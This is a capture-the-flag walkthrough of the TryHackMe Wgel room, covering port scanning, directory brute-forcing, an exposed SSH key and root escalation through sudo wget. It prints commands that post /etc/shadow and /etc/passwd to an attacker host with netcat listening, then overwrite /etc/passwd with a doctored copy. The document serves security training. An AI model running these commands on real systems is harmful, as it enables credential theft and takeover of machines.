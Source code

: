 # Wgel CTF

**Room Link:** [https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)





## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

On the main page of the site it was just a apache default page but in the source we can see someone named jessie making a comment.

<figure><img src="../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

Ran gobuster and found a site under sitemap, nothing really interesting about it when browsing.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

gobuster wasn't really able to find anything interesting.

**Kali**

```
gobuster dir -u http://$VICTIM/sitemap/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Ran dirb with defaults and it found a .ssh folder which has a id\_rsa so I downloaded and used it.

**Kali**

```
dirb http://$VICTIM/sitemap/
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa
ssh -v -i id_rsa  jessie@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

I tried cracking jessies hash as I would then be able to run any command with sudo but I couldn't crack it, documenting it anyways.

**Victim**

```
sudo -u root /usr/bin/wget --post-file=/etc/shadow $KALI:4444
sudo -u root /usr/bin/wget --post-file=/etc/passwd $KALI:4444
```

**Victim**

```
nc -lvnp 4444
```

**Victim**

```
unshadow passwd.txt shadow.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```



Instead I  changed the passwd file, I first downloaded to kali and changed the line for jessie so their password is now '123'. Then I uploaded it back and just became root.

**Victim**&#x20;

```
sudo -u root /usr/bin/wget --post-file=/etc/passwd 10.10.65.21:4444
```

**Kali**&#x20;

```
nc -lvnp 4444
```

**Line to change**

```
jessie:$1$new$p7ptkEKU1HnaHpRtzNizS1:1000:1000:jessie,,,:/home/jessie:/bin/bash

```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
sudo wget http://$KALI:8/passwd -O /etc/passwd
sudo -i
```

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

